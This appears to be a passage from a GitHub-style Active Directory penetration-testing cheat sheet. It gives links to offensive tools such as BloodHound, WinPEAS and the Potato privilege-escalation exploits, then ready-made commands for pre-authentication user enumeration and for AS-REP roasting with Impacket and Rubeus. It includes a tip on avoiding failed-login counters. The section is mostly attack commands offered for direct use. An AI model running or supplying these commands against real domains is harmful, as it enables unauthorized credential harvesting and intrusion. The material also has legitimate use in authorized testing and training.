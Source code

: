 - [Bloodhound](https://github.com/BloodHoundAD/BloodHound)
- [Ldeep](https://github.com/franc-pentest/ldeep)
- [Ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump)
- [WinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) -> [Compiled Version](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe/winPEAS/bin/Obfuscated%20Releases)
- [FullPower](https://github.com/itm4n/FullPowers)
- [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
- Potatoes
  - [Rotten Potato](https://github.com/breenmachine/RottenPotatoNG)
  - [Juicy Potato](https://github.com/ohpe/juicy-potato)
  - [Rogue Potato](https://github.com/antonioCoco/RoguePotato)
- Enum4linux
  - [Old](https://github.com/tiyeuse/Active-Directory-Cheatsheet/tree/master/tools/enum4linux)
  - [Python version](https://github.com/0v3rride/Enum4LinuxPy)

## Enumeration

### Pre auth

#### Find valid users

With Kerbrute:

`kerbrute userenum --dc 10.10.10.10 -d <domain_name> users.txt -v`

With Enum4linux:

`./enum4linux.pl -v 10.10.10.10`

#### Find valid credentials

##### AS REP Roast
This attack looks for users without Kerberos pre-authentication required. That means that anyone can send an AS_REQ request to the KDC on behalf of any of those users, and receive an AS_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline.

With Impacket:

It is important to specify -no-pass in the script, otherwise a badpwdcount entry will be added to the user.
```
# For multiples users
GetNPUsers.py -request <domain_name>/

# For a single user
GetNPUsers.py -request -dc-ip 10.10.10.10 -no-pass <domain_name>/<user>

# For multiples users
GetNPUsers.py -request -dc-ip 10.10.10.10 -no-pass -usersfile users.txt <domain_name>/
```
With Rubeus:
```
# For multiples users
Rubeus.exe asreproast /domain:<domain_name> /format:<hashcat|john> /outfile:<filename>

# For a single user
Rubeus.exe asreproast /user:<user> /domain:<domain_name> /format:<hashcat|john> /outfile:<filename>

# For a spesific Organization Unit (OU)
Rubeus.exe asreproast /ou:<OU_name> /domain:<domain_name> /format:<hashcat|john> /outfile:<filename>
```
